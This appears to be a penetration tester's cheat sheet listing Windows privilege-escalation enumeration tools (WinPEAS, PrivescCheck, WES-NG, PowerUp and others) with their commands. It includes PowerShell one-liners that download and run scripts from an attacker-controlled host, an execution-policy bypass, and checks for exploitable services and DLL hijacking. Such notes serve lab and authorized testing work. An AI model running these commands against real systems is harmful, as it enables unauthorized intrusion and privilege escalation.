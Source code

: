 ### 1: WinPEAS  Author:https://github.com/carlospolop/PEASS-ng/releases

### 2: Privesccheck (Set -ExecutionPolicy Bypass -Scope process -Force) Author: https://github.com/itm4n/PrivescCheck

### 3: Windows Exploit Suggester - Next Generation (WES-NG) Author: https://github.com/AonCyberLabs/Windows-Exploit-Suggester

### Systeminfo > txt file

### wes.py --update

### 4: Metasploit (multi/recon/local_exploit_suggester)

### 5: PowerSharpPack https://github.com/S3cur3Th1sSh1t/PowerSharpPack

    iex(new-object net.webclient).downloadstring('http://ATTACK_IP:PORT/PowerSharpPack.ps1')

### Then

    PowerSharpPack -winPEAS

### 6: Invoke-WinPEAS https://gist.github.com/S3cur3Th1sSh1t/d14c3a14517fd9fb7150f446312d93e0#file-invoke-winpeas-ps1

    iex(new-object net.webclient).downloadstring('http://10.10.14.5:9999/Invoke-winPEAS.ps1')

    Invoke-winPEAS >> .out

### 7: PowerUp

##### All checks

    Invoke-AllChecks

##### Get services with unquoted paths and a space in their name.

    Get-UnquotedService -Verbose

##### Get services where the current user can write to its binary path or change arguments to the binary

    Get-ModifiableServiceFile -Verbose

###### Get the services whose configuration current user can modify.

    Get-ModifiableService -Verbose

##### DLL Hijacking

    Find-ProcessDLLHijack
    Find-PathDLLHijack

### 8: Other

##### PrivescCheck: https://github.com/itm4n/PrivescCheck

    . .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended

    .\beRoot.exe
    .\winPEAS.exe
    .\Seatbelt.exe -group=all -full

##### Privesc: https://github.com/enjoiz/Privesc

    Invoke-PrivEsc
